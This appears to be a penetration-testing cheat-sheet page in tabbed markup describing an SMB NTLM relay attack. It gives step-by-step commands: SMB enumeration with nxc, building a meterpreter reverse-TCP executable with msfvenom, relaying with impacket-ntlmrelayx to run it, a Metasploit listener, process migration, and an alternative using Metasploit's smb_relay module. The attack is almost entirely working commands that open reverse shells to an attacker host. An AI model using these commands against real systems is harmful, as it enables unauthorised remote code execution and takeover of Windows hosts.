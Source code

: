 {% tabs %}
{% tab title="1. Enum" %}
```bash
nxc smb 172.16.10.0/24 --gen-relay-list relay.txt
```
{% endtab %}

{% tab title="2. Payload" %}
{% code overflow="wrap" %}
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=5555 -f exe > shell.exe
```
{% endcode %}
{% endtab %}

{% tab title="3. Server" %}
```bash
sudo impacket-ntlmrelayx.py -h relay.txt -e ./shell.exe
```
{% endtab %}

{% tab title="4. Meterpreter" %}
```bash
msfconsole -q
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.10.10
msf6 exploit(multi/handler) > set LPORT 5555
msf6 exploit(multi/handler) > exploit
```
{% endtab %}

{% tab title="5. Migrate" %}
```bash
meterpreter > ps
meterpreter > migrate <PID>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="1. Enum" %}
```bash
nxc smb 172.16.10.0/24 --gen-relay-list relay.txt
```
{% endtab %}

{% tab title="2. MSF" %}
```bash
msf6 > use exploit/windows/smb/smb_relay
msf6 exploit(windows/smb/smb_relay) > set relay_targets
msf6 exploit(windows/smb/smb_relay) > set srvhost 172.16.10.3
msf6 exploit(windows/smb/smb_relay) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/smb_relay) > set LHOST 10.10.10.10
msf6 exploit(windows/smb/smb_relay) > exploit
```
{% endtab %}
{% endtabs %}
